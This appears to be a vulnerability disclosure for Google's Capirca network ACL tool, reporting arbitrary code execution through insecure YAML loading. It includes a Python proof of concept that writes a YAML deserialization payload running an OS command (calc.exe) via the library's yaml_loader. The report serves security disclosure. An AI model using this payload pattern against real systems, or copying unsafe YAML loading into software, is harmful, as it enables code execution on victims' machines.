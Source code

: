 # Description

**Capirca** is a tool designed to utilize common definitions of networks, services and high-level policy files to facilitate the development and manipulation of network access control lists (ACLs) for various platforms. It was developed by Google for internal use, and is now open source.

This package is vulnerable to Arbitrary code execution via Insecure YAML deserialization due to the use of a known vulnerable function **load()** in **yaml**. <br>
repo: https://github.com/google/capirca

# Proof of Concept

```python
#!/usr/bin/env python3

import capirca.utils.config as utils

payload = '''
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
'''
open('pwn.yml', 'w+').write(payload)

utils.yaml_loader('pwn.yml')
print("pwned 🏴")
```

* clone and install https://github.com/google/capirca.git using `setup.py`
* `python3 exploit.py`
